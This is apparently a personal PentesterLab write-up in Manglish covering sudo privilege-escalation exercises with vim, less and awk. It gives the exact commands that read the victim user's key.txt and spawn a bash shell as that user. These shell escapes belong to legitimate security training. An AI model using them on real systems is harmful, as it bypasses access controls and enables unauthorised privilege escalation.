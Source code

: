 # 27 - sudo -l (vim)
-->lab il kei ->sudo -l    adikuka
```
User pentesterlab may run the following commands on 330f67f78eb4: 
	(victim) /usr/bin/vim
```
ivide kanam victim user in sudo vech vim use chyan patum
-->ividem namuk rand reethiyil chyam.1->vim vech athil thane key.txt file path koduth namuk key kitum.but athin key evide aan irikunath enn namal arinjirikanam enale nadaku. 2->namuk sudo vim open chyth athil oru bash shell undakam.apol pine anaml victm aayi marum.apol namuk key.txt file evide aan irikunath enn easy aayi ariyan patum ok
==1)==->`sudo -u victim vim /home/victim/key.txt`
-->ingane kodukumbol namuk key kitunund.but nerthe paranjapole key.txt evide aan irikunah enariyanam ok
-->illengil ->`sudo -u victim vim`  kodukuka.apol vim open aakum.enit `esc` adikuka enit` :r /home/victm/key.txt`  kodukuka.apozhum namuk key ktum
==2)==-->ini randamateh reethi vim il oru shell undakuka ennathan
-->To gain a shell as the user `victim`, you can start `vim` then you can type the following: `:!/bin/bash` to run `/bin/bash`
-->sudo -u victm vim       adikuka enit `esc` adichit `:!/bin/bash`  ith kodukuka enit enter adichal namuk puthiya shell kitum.apol namal victim aayi mari.ini home il poi key.txt file open chythamathi
-->ini thirich namude pentesterlab account il veran ->ctrl + d  click chyuka enit enter adikuka apol vim open aakum.enit athil `:q!`   adich enter adichal thirich namude thane account ilek varum ok

# 28 - sudo (less)
-->lab open aakuka enit ->sudo -l   adikuka
```
User pentesterlab may run the following commands on cd0748b3340f: 
	(victim) /usr/bin/less
```
so user victim in less command sudo vech adikan patum
-->so ividem nerthe pole rand reethiyil chyam.onnamatheth direct key.txt file adikunath.ath ariyalo so ini parayunila.randamthethum nerthe pole thane athayath shell access undakuka
->sudo -u victim less /home/key.txt
-->ivide namuk key kitum.but namuk shell acess aan vendath.so avide thane `!/bin/bash`  adikuka.apol namuk shell acess kitum ok
-->so ini /home il ninum key.txt open aakiko.
-->ini namuk account ilek thirich pokan ctrl+d adich :!q  adich enter adikuka ok

# 29 - sudo (awk)
-->lab open aakuka enit ->sudo -l   adikuka
```
User pentesterlab may run the following commands on 0270e571e865: 
	(victim) /usr/bin/awk
```
-->`sudo -u victim awk '{print $1}' /home/victim/key.txt`
-->print $1 ennal aadyathe linr print chyano mato aan.ipo namuk key kitum
-->ini oru shell aaki chythnokamj
-->`sudo -u victim awk 'BEGIN{system("/bin/bash")}'`
